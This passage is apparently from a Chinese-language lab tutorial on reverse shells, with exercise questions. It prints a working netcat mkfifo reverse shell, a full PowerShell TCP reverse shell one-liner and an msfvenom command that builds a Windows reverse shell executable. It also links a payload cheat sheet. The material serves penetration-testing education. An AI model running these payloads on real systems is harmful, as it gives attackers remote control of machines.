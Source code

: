 ![](https://i.imgur.com/2vy6cXk.png)


可以使用一个非常相似的命令来发送 netcat 反向 shell： 
```bash
mkfifo /tmp/f; nc <本地IP> <端口> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm/tmp/f 
```
除了使用 netcat connect 语法而不是 netcat listen 语法之外，此命令实际上与前一个命令相同。
    
![](https://i.imgur.com/QDLQ1Fa.png)

以现代 Windows Server 为目标时，通常需要 Powershell 反向 shell，因此我们将在此处介绍标准的单行 PSH 反向 shell。 这个命令比较复杂，这里为了简单起见就不直接说明了。然而，它是一种非常有用的单行线，可以随身携带：

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```




为了使用它，我们需要用适当的 IP 和端口选择替换“\<IP\>”和“\<port\>”。然后可以将其复制到 cmd.exe shell（或在 Windows 服务器上执行命令的另一种方法，例如 webshell）并执行，从而产生反向 shell：
    
![](https://i.imgur.com/yXXTr0O.png)
    
对于其他常见的反向 shell payload，[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 是一个存储库，其中包含多种不同语言的 shell 代码（通常是用于复制和粘贴的单行格式）。阅读链接页面以查看可用内容非常值得。
    
**回答以下问题：**
1. 在 Linux 中可以使用什么命令来创建命名管道？
    
2. 查看链接的 Payloads all Things Reverse Shell Cheatsheet 并熟悉可用的语言。

### 2.9 msfvenom

Msfvenom：所有和 payload 相关事物的一站式商店

作为 Metasploit 框架的一部分，msfvenom 主要用于生成反向 shell 和正向 shell。同时 msfvenom 也广泛用于低水平的 exploit 开发，比如在开发一些用于缓冲区溢出的 expolit 时生成十六进制 shellcode。 然而，msfvenom 也可以用于 生成多种格式的 payloads，比如 .exe、.apsx、.war、.py 等。

以下简单地介绍一下 msfvenom：

msfvenom 的标准语法如下：
`msfvenom -p <PAYLOAD> <OPTIONS>`

例如，为了生成一个 exe 格式的 Windows x64 反向 shell，我们可以使用：
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![](https://i.imgur.com/vuzJ3gf.png)
